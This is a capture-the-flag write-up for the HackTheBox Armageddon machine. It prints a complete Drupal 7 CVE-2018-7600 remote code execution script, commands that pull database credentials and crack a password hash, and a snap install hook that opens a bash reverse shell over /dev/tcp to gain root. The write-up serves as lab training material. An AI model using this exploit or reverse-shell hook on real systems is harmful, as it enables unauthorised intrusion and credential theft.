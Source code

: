 ```yaml
---
title: Armaggedon Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

It has ports 22 and 80 open.

Unfortunately, we couldn't find any more relevant information about directories, or anything else.

##  User exploit

Looking around the site, we found that we are dealing with a Drupal 7, so we are going to look for an exploit for this.

We find the following script (which we save and run)

```python
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup

def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7600.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7600) vulnerability in Drupal 7 <= 7.57
                    by poisoning the recover password form (user/password) and triggering it with
                    the upload file via ajax (/file/ajax).
                    ''')
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-p", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  proxies = {'http': proxy, 'https': proxy}
  print('[*] Poisoning a form and including it in cache.')
  get_params = {'q':'user/password', 'name[#post_render][]':function, 'name[#type]':'markup', 'name[#markup]': command}
  post_params = {'form_id':'user_pass', '_triggering_element_name':'name', '_triggering_element_value':'', 'opz':'E-mail new Password'}
  r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
  soup = BeautifulSoup(r.text, "html.parser")
  try:
    form = soup.find('form', {'id': 'user-pass'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/name/#value/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('=============================================================================')
  print ('|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |')
  print ('|                              by pimps                                     |')
  print ('=============================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()
```
and we can execute it with the -c command, to which we can pass the parameter to be executed:

```shell
python3 scripy.py <IP> -c "cat /var/www/html/sites/default/settings.php"
```

and there we find two credentials: `drupaluser:CQHEy@9M*m23gBVj` which we can use to access the database whose name is `drupal`.

```shell
mysql -u drupaluser -pCQQHEy@9M*m23gBVj -e 'show databases;'
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; show 
tables;'
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users;'
```

here we can see the user `brucetherealadmin` with its password encrypted, so let's decrypt it:

```shell
echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash

hashcat --help | grep Drupal

sudo hashcat -m 7900 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt --force
```

and we get the booboo password, so we connect via ssh and we can see the user.txt flag.

## Root exploit

if we do `sudo -l` we can see that we can run the snap command as sudo, and looking at GTFOBINS we can see that we have a possible exploit, so let's create the file to execute

```shell
# Setup the install hook
mkdir -p ./meta/hooks

# The script we want to execute as root
printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/<IP>/4444 0>&1"\n' > ./meta/hooks/install

# Build the snap package
chmod a+x ./meta/hooks/install
fpm -n revshell -s dir -t snap -a all ./meta
```

and pass it to the victim machine:

```shell
scp -r {file} brucetherealadmin@IP:/tmp
```

and if we listen locally and run the script as sudo, we receive a reverse shell as root and we can send the root.txt flag.

